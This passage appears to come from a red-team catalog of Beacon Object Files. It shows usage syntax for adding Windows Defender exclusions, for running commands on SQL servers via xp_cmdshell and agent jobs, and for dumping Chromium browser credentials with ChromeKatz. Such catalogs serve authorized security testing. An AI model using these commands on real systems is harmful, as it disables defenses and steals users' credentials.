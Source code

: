 # Examples - Local
cEnumDefenderException add extension .tmp
cEnumDefenderException add path C:\windows\temp\
cEnumDefenderException add process NotMalicious.exe

# Example - Remotely
cEnumDefenderException add path C:\users\USERNAME\Downloads\ HOSTNAME.domain.local
``` 

- [**SQL-BOF**](https://github.com/Tw1sm/SQL-BOF)<br />
BOFs to interact with SQL servers without having to use .NET assemblies.
```
# Get info on a SQL server
sql-info <SERVER>
sql-links <SERVER> -> Enum linked servers

# Exec commands on SQL server
sql-whoami <SERVER> --> Gather logged in user, mapped user and roles
sql-olecmd <SERVER> [command] [opt:database] --> Exec command via OLE automation procedures
sql-xpcmd <SERVER> [command] [opt:database] --> Exec command via xp_cmdshell
sql-agentcmd <SERVER> [command] [opt:database] --> Exec command via agent jobs

# Exec custom SQL query
sql-query <SERVER> [query] [opt:database]

# Enum databases or columns on a server
sql-databases <SERVER> [opt:database]
sql-tables <SERVER> [opt:database]
sql-columns <SERVER> TableName [opt:database]

# Enable/disable xp_cmdshell
sql-enablexp <SERVER>
sql-disablexp <SERVER>
```

- [**ChromeKatz**](https://github.com/Meckazin/ChromeKatz)<br />
Cross-compiled BOFs and EXEs to dump browser cookies and credentials from Chromium-based browsers.<br />
Load the CNA script or compile yourself and you're good to go!
```
# CredentialKatz-BOF
credential-katz-find --> Find target browser processes supported
credential-katz [chrome|edge] [PID] --> Dump browser credentials from credential manager using OpenProcess and ReadProcessMemory APIs

